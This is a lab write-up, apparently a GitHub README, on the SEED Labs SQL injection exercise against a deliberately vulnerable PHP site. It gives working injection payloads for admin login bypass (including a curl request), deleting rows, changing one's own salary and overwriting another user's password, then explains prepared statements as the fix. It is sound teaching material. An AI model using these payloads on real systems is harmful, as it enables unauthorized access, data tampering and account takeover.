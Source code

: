 # SQL-Injection (Seed Security Labs)

**Running:** SEEDUbuntu16.04 VM

## Vulnerability description
- User input is not properly sanitized by the PHP web app, allowing an attacker to inject SQL code into a query and gain unauthorized access to the application's database and/or perform unauthorized actions.

## Login to DB as admin
- Scenario in which we know the username "admin" and not the password
- Vulnerable PHP code:
![unsafe_home.php](https://github.com/peterkarydis/sql-injection/blob/main/images/pic1.png?raw=true)

- The attacker can login as admin when giving the following username input:
![admin_login](https://github.com/peterkarydis/sql-injection/blob/main/images/pic2.png?raw=true)

- The attacker tricks the database server into returning a select query without asking for the password, due to commenting out everything after the # symbol given to the username input field.
![admin_user_details](https://github.com/peterkarydis/sql-injection/blob/main/images/pic3.png?raw=true)

## Login to DB as admin using curl
```
curl 'www.SeedLabSQLInjection.com/unsafe_home.php?username=admin%27%3B%23'
```
- %27, %3B, %23 are the html url encoded ' ; and # symbols respectively.
- This curl command returns the admins' info. Part of the output is the following:
![admin_user_details_curl](https://github.com/peterkarydis/sql-injection/blob/main/images/pic4.png?raw=true)

## Update/Delete from DB
- An attacker could also modify DB data through converting an sql statement to two, by again exploiting the vulnerable login php code.We can seperate two SQL statements by using the semicolon (;).

```
'1=1;delete from credential where name='Ted';#
```
- The following attack does not work against MySQL because the mysqli PHP extension "mysqli :: query () API" does not allow multiple queries to be executed to the DB server. If we would like to run multiple SQL commands, we could use $ mysqli -> multi_query (), which is not recommended.

## DB user changes values he is not authorized to
- In this scenario we login as Alice, and change our salary (which we are normally not able to)
- Vulnerable php code for users to edit their profile:
![unsafe_edit_frontend.php](https://github.com/peterkarydis/sql-injection/blob/main/images/pic5.png?raw=true)

- Attacker can exploit this vulnerability by giving the following input:
```
',salary=50000 where EID=10000;#
```
![alice_changes_her_salary](https://github.com/peterkarydis/sql-injection/blob/main/images/pic6.png?raw=true)

## DB user changes password of other user
- First we generate the hash value of the new password, because this will be saved inside the DB.
![newpassword_hash](https://github.com/peterkarydis/sql-injection/blob/main/images/pic7.png?raw=true)

- Then we login as Alice and edit our profile (similarly to previous injection):
```
',password='f2c57870308dc87f432e5912d4de6f8e322721ba' where name='Boby';#
```

## SQL Injection Countermeasures
- Using prepared statements.
- PHP Code using prepared statement:
![safe_home.php](https://github.com/peterkarydis/sql-injection/blob/main/images/pic8.png?raw=true)

- Using prepared statement means taking two steps into sending the SQL statement to the DB.
1. Only send the data part, without the real data. The real data are replaced by (?).
2. Send the data to the DB using bind_param(). Through this method the DB takes the data as data and not code.
- Through prepared statements the DB has a clear distinction between **code** and **data**.
- The attacker could hide code into the data, but the code will never be interpreted as code, which means it will never execute.